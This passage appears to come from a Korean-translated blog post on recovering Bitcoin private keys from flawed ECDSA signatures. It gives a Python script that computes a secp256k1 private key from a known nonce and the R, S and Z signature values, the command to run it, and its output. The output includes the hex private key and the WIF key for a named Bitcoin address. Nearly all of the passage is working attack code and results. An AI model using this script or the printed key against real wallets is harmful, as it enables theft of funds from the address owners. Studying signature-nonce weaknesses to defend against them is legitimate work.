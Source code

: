 

<pre class="wp-block-code"><code>def h(n):
    return hex(n).replace("0x","")

def extended_gcd(aa, bb):
    lastremainder, remainder = abs(aa), abs(bb)
    x, lastx, y, lasty = 0, 1, 1, 0
    while remainder:
        lastremainder, (quotient, remainder) = remainder, divmod(lastremainder, remainder)
        x, lastx = lastx - quotient*x, x
        y, lasty = lasty - quotient*y, y
    return lastremainder, lastx * (-1 if aa &lt; 0 else 1), lasty * (-1 if bb &lt; 0 else 1)

def modinv(a, m):
    g, x, y = extended_gcd(a, m)
    if g != 1:
        raise ValueError
    return x % m
    
N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca
R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9


print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>스크립트는 다음 공식을 사용하여 개인 키를 계산합니다.</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>스크립트를 실행해 봅시다:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-148.png" alt="서명 오류를 사용하여 Bitcoin 지갑에 대한 개인 키를 얻는 방법(Bitcoin에 대한 Rowhammer 공격)" class="wp-image-1259"/></figure>



<p><code>PrivKey = 86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">bitaddress를</a></strong>&nbsp;열고&nbsp;다음을 확인합니다.</p>



<pre class="wp-block-code"><code>ADDR: 18hhdfynnojmiMmBMsrkXNFWketq4mmDHB
WIF:  L1jMLZYkKr2YoTLH9xWXS9jPMgeasnTxWmGrHBK9aMCW9ahsNDzP
HEX:  86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></pre>

